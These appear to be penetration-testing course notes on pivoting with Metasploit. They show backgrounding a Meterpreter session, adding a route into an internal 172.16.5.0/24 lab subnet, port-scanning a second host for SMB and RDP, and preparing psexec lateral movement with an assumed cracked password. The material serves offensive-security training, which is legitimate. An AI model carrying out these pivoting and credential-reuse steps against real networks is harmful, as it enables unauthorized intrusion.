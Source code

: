 Now that we have a working session on the compromised system, we can background it 
+ To add a route to a network reachable through a compromised host, we can use **route add** with the network information and session ID that the route applies to
+ After adding the route, we can display the current routes with **route print**:
```
meterpreter > bg
[*] Backgrounding session 12...

msf6 exploit(multi/handler) > route add 172.16.5.0/24 12
[*] Route added

msf6 exploit(multi/handler) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.5.0         255.255.255.0      Session 12

[*] There are currently no IPv6 routes defined.
```

With a path created to the internal network, we can enumerate this subnet
+ Now we could scan the whole network for live hosts with a port scan auxiliary module
+ Since this scan would take quite some time to complete, let's shorten this step by only scanning the other live host in the second network
+ Therefore, instead of setting the value of _RHOSTS_ to _172.16.5.0/24_ as we would do if we wanted to scan the whole network, we set it to 172.16.5.200. 
+ For now, we only want to scan ports 445 and 3389:
```
msf6 exploit(multi/handler) > use auxiliary/scanner/portscan/tcp 

msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.5.200
RHOSTS => 172.16.5.200

msf6 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
PORTS => 445,3389

msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.5.200:         - 172.16.5.200:445 - TCP OPEN
[+] 172.16.5.200:         - 172.16.5.200:3389 - TCP OPEN
[*] 172.16.5.200:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
+ Above shows that 172.161.5.200 has ports 445 and 3389 open
+ Let's use two modules for SMB and RDP using our pivot host ITWK01 to perform operations on the target

First, we'll attempt to use the _psexec_ module to get access on the second target as user _luiza_
+ In the previous section, we retrieved the NTLM hash via Kiwi
+ Let's assume we could successfully crack the NTLM hash and the clear-text password is _BoccieDearAeroMeow1!_
+ For _psexec_ to succeed, _luiza_ has to be a local administrator on the second machine
+ For this example, let's also assume that we confirmed this through information gathering techniques
